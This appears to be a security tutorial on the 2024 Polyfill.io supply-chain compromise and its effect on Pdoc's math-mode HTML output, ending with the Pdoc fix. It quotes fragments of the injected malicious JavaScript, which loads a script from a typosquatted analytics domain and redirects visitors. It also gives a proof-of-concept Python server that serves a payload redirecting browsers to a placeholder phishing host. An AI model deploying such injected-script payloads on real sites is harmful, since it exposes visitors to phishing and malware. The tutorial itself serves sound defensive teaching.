```yaml
---
title: Real Example 1
---
```


## Pdoc and Polyfill.io

Third-party libraries are pre-built components that developers can integrate into their projects to simplify complex tasks and speed up development. However, they come with inherent risks, as they are created and maintained outside the project. If third-party libraries are not maintained properly, they can introduce vulnerabilities that can be exploited by malicious users.

To understand the risks associated with third-party libraries, we will explore a real example involving Pdoc and `Polyfill.io`. Pdoc is a Python library used to generate documentation, and it relied on the `Polyfill.io` CDN to ensure compatibility across browsers. In this real example, we will learn how `Polyfill.io` was compromised to inject code in applications like Pdoc.

## Polyfills

In software development, a polyfill is code that implements a new standard feature in an old environment. This is a common practice done on older browsers to add support for modern features. For example, if a browser lacks support for a specific JavaScript function or HTML element, a polyfill can mimic that function, giving users of older browsers the same experience.

Let's say we need to use the `Math.trunc` function. This would "cut off" the decimal part of an integer. For example, `Math.trunc(1.23)` returns `1`. However, older browsers might not support this function. To add support, we could implement a polyfill to mimic the `Math.trunc` function.

```javascript
// Check if Math.trunc is supported
if (!Math.trunc) {
    // Implement the polyfill
    Math.trunc = function(number) {
        return number < 0 ? Math.ceil(number) : Math.floor(number);
    }
}
```

In general, polyfills are particularly valuable in a rapidly evolving ecosystem, where maintaining broad compatibility is essential to reach large user bases.

## Polyfill.io

`Polyfill.io` was one service designed to simplify the use of polyfills. It provided a solution that delivered only necessary scripts based on the specific features needed by the user's browser. This tool proved to be convenient for developers aiming to reach users with low overhead.

Developers would integrate `Polyfill.io` by adding a script tag in their HTML files. This script would dynamically fetch the appropriate polyfills, but developers could also indicate the particular features they needed like `ES6`.

```html
<script src="https://polyfill.io/v3/polyfill.min.js?features=es6"></script>
```

However, the original author of `Polyfill.io` never owned the domain name. Without influence over its sale, `Polyfill.io` was eventually sold to a Chinese company called Funnull in February 2024. On June 25, 2024, the Sansec forensics team reported a supply chain attack on `Polyfill.io` after the service started redirecting users to malicious sites and injecting malware.

The people that were targeted in this attack were mobile users. When these users accessed compromised websites, the injected code would first check what device they were using to set up an appropriate redirection URL.

```javascript
function check_tiaozhuan() {
  var _isMobile = navigator.userAgent.match(
    /(phone|pad|pod|iPhone|iPod|ios|iPad|Android|Mobile|BlackBerry|IEMobile|MQQBrowser|JUC|Fennec|wOSBrowser|BrowserNG|WebOS|Symbian|Windows Phone)/i
  );
  if (_isMobile) {
    var _curHost = window.location.host,
      _ref = document.referrer,
      _redirectURL = "",
      _kuurzaBitGet = "https://kuurza.com/redirect?from=bitget",
      _rnd = Math.floor(Math.random() * 100 + 1),
      _date = new Date(),
      _hours = _date.getHours();
```

Before the user is redirected, the `vfed_update` function would load a script from a fake Google Analytics domain and redirect if `usercache` is true.

```javascript
function vfed_update(_0x5ae1f8) {
  _0x5ae1f8 !== "" &&
    loadJS(
      "https://www.googie-anaiytics.com/html/checkcachehw.js",
      function () {
        if (usercache == true) {
          window.location.href = _0x5ae1f8;
        }
      }
    );
}
```

By targeting a widely used service like Polyfill.io, the attackers managed to inject malware and exploit more than 100 thousand websites. This highlights the importance of continuously monitoring third-party libraries to be safe.

## Pdoc

In the context of Pdoc, a Python library used to generate documentation, one of the features they included was a math render mode using MathJax. This was particular useful for users that required precise math notation.

```bash
# Enable math mode with --math flag
pdoc --math example.py
```

However, Pdoc was vulnerable because they relied on `Polyfill.io` to provide polyfills for browsers that lacked support for modern features required by MathJax. When users enabled math mode, the HTML output included a script tag that loaded `Polyfill.io`, recommended by MathJax.

```html
{# This template is included in math mode and loads MathJax for formula rendering. #}

...

<script src="https://polyfill.io/v3/polyfill.min.js?features=es6"></script>
<script id="MathJax-script" async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>
```

As a result, users of Pdoc who enabled math mode had harmful code injected after `Polyfill.io` was compromised.

## Proof of Concept

To better understand how Pdoc users were impacted, we can create a compromised server to simulate how malicious JavaScript was injected. We start by creating a simple Python program to act as the victim of this attack.

```python
# Save this as example.py
def example_function():
    """
    This is am example function.
    """
    pass
```

Then, we install a vulnerable version of Pdoc and use Pdoc to generate documentation with math mode enabled for the victim website.

```bash
python -m pip install pdoc==14.5.0
```

```bash
python -m pdoc --math example.py -o ./docs
```

In the HTML output, we can then modify `example.html` by replacing the `Polyfill.io` link with our own server at `http://localhost:8000`.

```html
<!-- Find the following line in your generated HTML --> 
<script src="https://polyfill.io/v3/polyfill.min.js?features=es6"></script> 

<!-- Replace it with -->
<script src="http://localhost:8000"></script>
```

To exploit the vulnerability in the victim program, we can create a script that sets up a malicious HTTP server using Python's `http.server` and `socketserver` modules. This will listen for GET requests and inject harmful code when the victim website is loaded in the user's browser.

```python
import http.server
import socketserver

class MaliciousHandler(http.server.SimpleHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-type", "application/javascript")
        self.end_headers()

        # Malicious JavaScript payload
        malicious_js = """
        (function() {
            // Redirect to phishing site after 10 seconds
            setTimeout(function() {
                window.location.href = 'http://phishing-site.example.com';
            }, 10000);
        })();
        """
        self.wfile.write(malicious_js.encode('utf-8'))


if __name__ == "__main__":
    with socketserver.TCPServer(("", 8000), MaliciousHandler) as httpd:
        print("Serving malicious script at port 8000")
        httpd.serve_forever()
```

In this example, we redirect the user to another website after some time. This simulates a simplified version of the attack done by `Polyfill.io`.

![image](https://ik.imagekit.io/14sfaswy6hrz/images/clyc2v0ncxs2f1gmw0kwpbyzo.png)

## Mitigations

To address the attacks done by `Polyfill.io`, the maintainers of Pdoc decided to remove the reference to `Polyfill.io` entirely. This was done to ensure no vulnerabilities are included in the documentation output.

```diff
{# This template is included in math mode and loads MathJax for formula rendering. #}

...

- <script src="https://polyfill.io/v3/polyfill.min.js?features=es6"></script>
<script id="MathJax-script" async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>
```

As a result, users can now determine if they need polyfills in their documentation and do not need to depend on `Polyfill.io` specifically.

The real example involving Pdoc and `Polyfill.io` demonstrates how third-party libraries can introduce vulnerabilities that compromise the application. By staying on top of updates and security patches on the libraries we use, we can protect our applications from similar threats.
